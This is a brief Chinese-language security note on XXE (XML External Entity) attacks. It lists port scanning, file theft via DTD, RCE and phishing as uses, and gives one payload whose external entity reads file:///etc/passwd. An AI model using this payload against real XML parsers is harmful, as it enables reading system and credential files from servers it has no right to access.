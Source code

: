 # XXE

## 简介

XXE，XML External Entities。

## 利用

端口扫描，通过DTD盗取文件，RCE，钓鱼。

```js
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
```




